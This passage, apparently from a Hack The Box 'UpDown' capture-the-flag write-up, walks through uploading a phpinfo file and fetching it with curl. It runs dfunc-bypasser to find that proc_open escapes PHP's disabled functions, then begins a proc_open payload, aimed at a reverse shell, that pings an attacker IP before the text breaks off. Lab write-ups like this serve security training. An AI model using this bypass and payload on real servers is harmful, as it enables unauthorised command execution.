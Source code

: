 	<?php
	phpinfo();
	?>
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
	![](Pasted%20image%2020221024181741.png)
	> A bunch of command execution functions are disabled `system(), passthru(), shell_exec(), popen(), fsockopen()`.
	{: .prompt-info }
4. Lets find out if we can bypass the restrictions w/ [`dfunc-bypasser`](https://github.com/teambi0s/dfunc-bypasser)
	1. Download `phpinfo` file
		```
		┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/exploit]
		└─# curl http://dev.siteisup.htb/uploads/dd2f884d6ca7dba024fa145f8b5b258b/exploit.phar -H "Special-Dev: only4dev" -H "Host: dev.siteisup.htb" > phpinfo.php
		```
	2. Run `dfunc-bypasser`
		```
		┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/exploit]
		└─# python dfunc-bypasser.py --file phpinfo.php
		
		Please add the following functions in your disable_functions option:
		proc_open
		If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
		```
		>  `proc_open` - we can use this to invoke a reverse shell !
		{: .prompt-info }
5. Create our payload - [Source](https://www.sitepoint.com/proc-open-communicate-with-the-outside-world/)
	```
	<?php
	// descriptor array
	$desc = array(
	    0 => array('pipe', 'r'), // 0 is STDIN for process
	    1 => array('pipe', 'w'), // 1 is STDOUT for process
	    2 => array('file', '/tmp/error-output.txt', 'a') // 2 is STDERR for process
	);
	
	// command to invoke markup engine
	$cmd = "ping -c 5 10.10.14.104";
	